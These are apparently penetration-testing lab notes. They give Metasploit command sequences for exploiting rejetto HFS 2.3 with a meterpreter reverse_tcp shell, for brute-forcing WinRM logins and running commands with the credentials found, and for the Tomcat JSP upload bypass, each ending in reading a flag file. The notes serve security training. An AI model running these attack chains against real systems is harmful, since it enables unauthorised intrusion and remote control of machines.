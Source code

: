 Exploiting a vulnerable HTTP file server
- an HTTP file server HFS is a web server that is designed for file and document sharing
- HTTP file server typically run on TCP port 80 and utilize the HTTP protocol for underlying communication

- rejetto HFS V2.3 is vulnerable to a remote command execution attack

vulnerable http file server lab
=
	service postgresql start
	db_status
	workspace -a HFS
	setg RHOSTS ip
	db_nmap -sS -sV -O ip
	back
	search type:exploit name:rejetto
	use 0
	show options
	set RHOSTS ip
	exploit
	set payload windows/x64/meterpreter/reverse_tcp
	show options
	exploit


## Windows HTTP file server
	cat /root/Desktop/target
	nmap --top-ports 65536 ip
	nmap -sV -p 80 ip
	searchsploit hfs
	msfconsole 
	use exploit/windows/http/rejetto_hfs_exec
	set RPORT 80
	set RHOSTS ip
	set LHOST ip
	exploit

# WinRM: Exploitation with Metasploit


	nmap -sV -O ip
	msfdb init
	service postgresql start
	msfconsole
	search type:auxiliary name:winrm

	nmap ip
	service postgresql start
	msfconsole 
	search type:auxiliary name:winrm 
	use auxiliary/scanner/winrm/winrm_login
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	set VERBOSE false
	exploit
	use auxilliary/scanner/winrm/winrm_auth_methods
	set RHOSTS ip
	exploit
	use auxiliary/scanner/winrm/winrm_cmd
	set RHOSTS ip
	set USERNAME administrator
	set PASSWORD tinkerbell
	set CMD whoami
	exploit
	use exploit/windows/winrm/winrm_script_exec
	set RHOSTS ip
	set USERNAME administrator
	set PASSWORD tinkerbell
	set FORCE_VBS true
	exploit
	cd / 
	dir
	cat flag.txt


# Windows Java Web server (Apache Tomcat web server)
	nmap --top-ports 2500 ip
	firefox ip:8080
	msfconsole
	use exploit/multi/http/tomcat_jsp_upload_bypass
	set RHOSTS ip
	cd /
	dir
	cat flag.txt
	
	